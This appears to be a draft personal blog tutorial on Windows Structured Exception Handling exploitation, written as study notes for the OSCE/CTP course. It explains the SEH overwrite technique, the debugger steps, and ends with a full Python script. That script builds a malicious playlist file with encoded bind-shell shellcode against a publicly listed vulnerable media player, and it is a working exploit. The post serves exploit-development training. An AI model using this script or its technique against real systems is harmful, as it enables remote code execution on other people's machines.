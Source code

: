 ```yaml
---
layout: single
title: "SEH primer for CTP"
excerpt: "A primer for n00bs like myself in preparation for the CTP course offered by Offensive Security"
date: 2020-07-10
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/seh/lich_boi.jpg
  teaser: /assets/images/seh/lich_boi.jpg
  teaser_home_page: true
classes: wide
categories:
  - OSCE
  - infosec
tags:
  - ctp
  - osce
  - assembly
---
```

# THIS IS A DRAFT

![omg](/assets/images/seh/lich_boi.jpg)

## A primer on Structured Exception Handling (win32 exploitation)

*This article is written to help those who want a conceptual grasp on SEH exploits, I wrote this to help myself obtain a clear understanding before my CTP course starts.*

##### There are already many fantastic articles on this subject out there (some of which are linked throughout this article), which I encourage you to consume in order to get an even better understanding. 

#### What is an exception Handler?

In simple terms, an Exception Handler is exactly as the name implies, it *handles exceptions*, that is to say, when a program reaches something outside it's known functionality, an exception is raised (eg if a program wants an input between 2 and 5, and you put in 6). The program then needs to know how to *handle* this, either with an error message, exit code, or whatever else.

A Structured Exception Handler will follow a structure in  regards to handling exceptions.

For every exception handler, there is an Exception Registration Record structure.
These structures are chained together to create a "linked list" (a linked list contains a sequence of data records).

When an exception is triggered the OS scans down this list to evaluate the other exception functions until it finds a suitable exception handler for the current exception. (If no error is found, windows places a generic handler at the end to ensure it wil be handled in some manner).

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 


#### SO WHY IS THIS RELEVANT TO US??!

Well, when we send an attack string which happens to overwrite the SEH, windows will zero out the CPU registers, thus breaking our jump to shellcode ;(

#### What we can do:

Overwrite SEH with a pointer to POP POP RETN. 

#### Why would we want to do that?

Well, first remember that after passing the first exception, EIP is overwritten with the value of SEH.
Second, the registers to which the bytes are popped into **are not important**, what is important is that when a POP occurs, ESP is shifted +4. When a RET is called, the ESP address are moved into EIP and executed.

Remember that the SEH is located at ESP+8, so if we increment the stack pointer by 8bytes and return to the new pointer we will then be executing nSEH. 

EG a program crashes, registers get zeroed and SP +8 is overwritten with crash string eg 41414141

![SEH_overwrite](/assets/images/seh/SEH_overwrite.jpg)

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 
We also know that the EstablisherFrame (which starts with Next SEH) is located at ESP+8, so if we can load that value into EIP we can continue to control the execution flow of the application.

## Demonstration

To demonstrate this, we use example exercise from [https://www.fuzzysecurity.com/tutorials/expDev/3.html](https://www.fuzzysecurity.com/tutorials/expDev/3.html) (vulnerable software link is broken, software available on exploit-DB [here](https://www.exploit-db.com/exploits/17803)).
**Another invaluable resource for this subject is: [https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/](https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)**


As the steps to exploitation have already been covered, I will not run through them again here, only provide a brief summary.

First, we crash the application with a pattern attack string to locate the offset to SEH, which mona will do the heavy lifting for.

As below we see SEH overwritten and offset located:

![SEH_crash](/assets/images/seh/SEH_crash.jpg)

Calculate offsets with `!mona findmsp`

![SEH_control](/assets/images/seh/SEH_examine.jpg)

Now that we know the offset, we confirm control by crashing with another simple attack string as per the offset specified when we examined with `!mona findmsp`

```
nSEH="B"*4
SEH="C"*4
buffer = "A"*608 + nSEH + SEH + "D"*1384
```


Proof of control: 

![SEH_control](/assets/images/seh/SEH_control.JPG)

Now we choose an address to point to in a module containing POP+POP+RET with `!mona seh`

![SEH_pointer](/assets/images/seh/SEH_pointers.jpg)

Next:
* I choose 0x6162e557
* flip for little endian `"\x57\xe5\x62\x61"`
* modify my malicious playlist generator (obtained from [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/expDev/3.html))
* restart the program in immunity, set a break point by going to expression 
* Import playlist
* Pass first exception (shift+F9)
* Hit breakpoint
* step through to call RET (F7)

Now as you can see below, EIP is now at the address of POP+POP+RET, step through until RET is called, and the next screenshot will show we have reached nSEH.

![SEH_break_PPR](/assets/images/seh/SEH_break_PPR.jpg)

![SEH_after_PPR](/assets/images/seh/SEH_after_PPR.jpg)

Now you may have guessed something based of the below sequence, that's right! if we continue we end up in an infinite loop - this is because as we hit BBBB, ANOTHER exception is raised, thus calling POP+POP+RET again...

So now we need to replace nSEH with opcode that will JMP over the next few bytes of space. A safe amount would be 10, and pad the beginning of shellcode with NOPS.

Once this is done some shellcode is generated and placed AFTER SEH but BEFORE the rest of the attack string which should be big enough to overflow the application as below:

```#!/usr/bin/python -w
shellcode="\x90"*10+("\xd9\xc2\xd9\x74\x24\xf4\xba\x75\xad\xc8\xb1\x58\x33\xc9\xb1"
"\x53\x83\xe8\xfc\x31\x50\x13\x03\x25\xbe\x2a\x44\x39\x28\x28"
"\xa7\xc1\xa9\x4d\x21\x24\x98\x4d\x55\x2d\x8b\x7d\x1d\x63\x20"
"\xf5\x73\x97\xb3\x7b\x5c\x98\x74\x31\xba\x97\x85\x6a\xfe\xb6"
"\x05\x71\xd3\x18\x37\xba\x26\x59\x70\xa7\xcb\x0b\x29\xa3\x7e"
"\xbb\x5e\xf9\x42\x30\x2c\xef\xc2\xa5\xe5\x0e\xe2\x78\x7d\x49"
"\x24\x7b\x52\xe1\x6d\x63\xb7\xcc\x24\x18\x03\xba\xb6\xc8\x5d"
"\x43\x14\x35\x52\xb6\x64\x72\x55\x29\x13\x8a\xa5\xd4\x24\x49"
"\xd7\x02\xa0\x49\x7f\xc0\x12\xb5\x81\x05\xc4\x3e\x8d\xe2\x82"
"\x18\x92\xf5\x47\x13\xae\x7e\x66\xf3\x26\xc4\x4d\xd7\x63\x9e"
"\xec\x4e\xce\x71\x10\x90\xb1\x2e\xb4\xdb\x5c\x3a\xc5\x86\x08"
"\x8f\xe4\x38\xc9\x87\x7f\x4b\xfb\x08\xd4\xc3\xb7\xc1\xf2\x14"
"\xb7\xfb\x43\x8a\x46\x04\xb4\x83\x8c\x50\xe4\xbb\x25\xd9\x6f"
"\x3b\xc9\x0c\x05\x33\x6c\xff\x38\xbe\xce\xaf\xfc\x10\xa7\xa5"
"\xf2\x4f\xd7\xc5\xd8\xf8\x70\x38\xe3\x03\xb8\xb5\x05\x61\xaa"
"\x93\x9e\x1d\x08\xc0\x16\xba\x73\x22\x0f\x2c\x3b\x24\x88\x53"
"\xbc\x62\xbe\xc3\x37\x61\x7a\xf2\x47\xac\x2a\x63\xdf\x3a\xbb"
"\xc6\x41\x3a\x96\xb0\xe2\xa9\x7d\x40\x6c\xd2\x29\x17\x39\x24"
"\x20\xfd\xd7\x1f\x9a\xe3\x25\xf9\xe5\xa7\xf1\x3a\xeb\x26\x77"
"\x06\xcf\x38\x41\x87\x4b\x6c\x1d\xde\x05\xda\xdb\x88\xe7\xb4"
"\xb5\x67\xae\x50\x43\x44\x71\x26\x4c\x81\x07\xc6\xfd\x7c\x5e"
"\xf9\x32\xe9\x56\x82\x2e\x89\x99\x59\xeb\xb9\xd3\xc3\x5a\x52"
"\xba\x96\xde\x3f\x3d\x4d\x1c\x46\xbe\x67\xdd\xbd\xde\x02\xd8"
"\xfa\x58\xff\x90\x93\x0c\xff\x07\x93\x04")
  
filename="seh.plf"
#0x6162e557
buffer = "A"*608 + "\xeb\x10\x90\x90" + "\x57\xe5\x62\x61" + shellcode+ "B"*(1384-len(shellcode))
textfile = open(filename , 'w')
textfile.write(buffer)
textfile.close()
```
Now we generate our malicious playlist and open it in again - this time immunity does not register a crash, and we are able to connect to the bind shell payload:

![SEH_exploited](/assets/images/seh/SEH_exploited1.jpg)

So the takeaways for exploiting SEH are:

* As always calculate the overflow amount
* calculate the offset to SEH
* confirm control of nSEH and SEH
* Use SEH to move up 8 to nSEH
* Use nSEH to Jump back over SEH and into shellcode


#### I hope as an aspiring OSCE/security researcher you found this informative and above else *helpful* - I will be following this up with at least an article on ASLR.


# THIS IS A DRAFT
